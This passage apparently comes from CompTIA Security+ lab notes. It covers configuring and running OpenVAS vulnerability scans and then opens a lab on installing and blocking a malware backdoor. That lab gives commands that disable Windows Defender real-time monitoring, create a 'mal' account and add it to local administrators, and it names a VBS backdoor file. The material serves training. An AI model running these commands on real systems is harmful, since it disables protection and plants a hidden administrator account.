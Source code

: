 ##### Configure Scan Target
  1. Configuration > Targets 
  2. Select the blue star icon on the left to open the New Target web dialog box.
  3. Complete the dialog box as needed.
     * Name
     * Host
     * Credentials (if needed)

##### Configure scan schedule
  1. Configuration > Schedules
  2. Select the blue star icon on the left to open the New Schedule web dialog box.
  3. Complete the dialog box with the following information:
     * Name
     * First Time
     * Period
     * Duration
   4. Select Create

#### Configure scan task
  1. Scans > Tasks
  2. Select the blue star icon on the left to open the New Task web dialog box.
  3. Complete the dialog box with the following information:
     * Name
     * Scan Targets
     * Schedule
     * Scan Config
  4. Select Create
  5. Under Name at the bottom of the screen, select the name you created in step above.
  6. Select Start (play icon)

#### Browse OpenVAS scan report
1. From the No auto-refresh box in the green header bar, select Refresh every 30 seconds. 
2. Select the Dashboard
3. Scans > Reports

[Back to Top](#comptia-security)
<br/><br/>

### Assisted Lab 05: Installing, Using, and Blocking a Malware-based Backdoor
* Disable Windows Defender
  ```bash
  # Set-MpPreference -DisableRealTimeMonitoring $True
  ```
* Create a user account named ```mal``` on the remote server:
  ```bash
  C:\> net user /add mal Pa$$w0rd
  ```
* Add the ```mal``` user to the local administrators group:
  ```bash
  C:\> net localgroup administrators mal /add
  ```
* The backdoor:ini.vbs